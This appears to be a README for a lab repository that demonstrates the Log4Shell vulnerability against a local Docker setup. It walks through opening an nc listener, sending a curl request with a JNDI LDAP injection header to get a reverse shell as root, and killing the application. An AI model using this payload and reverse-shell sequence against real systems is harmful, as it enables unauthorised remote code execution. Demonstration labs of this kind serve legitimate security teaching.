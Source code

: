 # ossec-log4j

This repository forks two repositories to demostrate the Log4J Vulnerability

log4shell-vulnerable-app - contains a Gradle application that is vulnerable to the log4j attack in its headers

JNDI-Injection-Exploit - is an LDAP server that is used in the exploit for the vulnerable application to make a request to

## Setup Attack

The following command will set the environment variable ADDRESS to the host IPv4 address. The address is used to pass to the LDAP server to generate a nc command for a reverse shell.

```console
ADDRESS=$(ipconfig getifaddr en0) docker compose up -d
```

The docker compose environment will generate two containers.

1. LDAP Server
2. Vulnerable Application

## Exploit

On the host, set up a terminal to listen for incomming requests on port tcp/3000.
This terminal will be used to recieve the reverse shell.

```console
nc -lv 3000
```

In a second terminal, run the following request to the vulnerable application.
The ldap string can be taken from the logs of the LDAP server.

The vulnerable appliation will parse the Header and log the Header value. This will cause the vulnerable application to make a request
to the LDAP server and run the payload given. The payload will execute with the applications privileges and invoke a nc connection to the listener.

```console
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://<ipv4>:<port>/<random-string}'
```

To verify the reverse shell type

```console
whoami
```

or

```console
ps
```

From here, you are root in the container running the application. You can do whatever you want, including changing config, and killing the application.

The following command will kill the PID 1 process of the container which should be the application.

```console
kill 1
```
